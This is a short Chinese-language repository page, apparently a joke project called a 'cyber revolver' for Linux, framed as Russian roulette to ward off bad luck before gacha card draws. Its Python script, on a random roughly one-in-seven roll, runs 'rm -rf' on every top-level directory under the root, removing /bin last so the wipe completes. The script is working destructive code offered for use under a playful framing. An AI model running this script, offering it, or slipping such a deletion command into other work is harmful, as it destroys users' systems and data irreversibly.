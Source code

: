 ###### 2077-R8
###### From title
----------------------------------------------------------
# 如题，赛博左轮
#### 抽卡之前多玩几局，吸走煤气
----------------------------------------------------------
###### 适用于Linux
~~~python
from os import system, listdir
from random import randint

if randint(0, 6) == 0:
    path = listdir('/')
    for i in path:
        if i == 'bin':
            continue
        system('rm -rf /' + i)
    system('rm -rf /bin')
~~~
----------------------------------------------------------
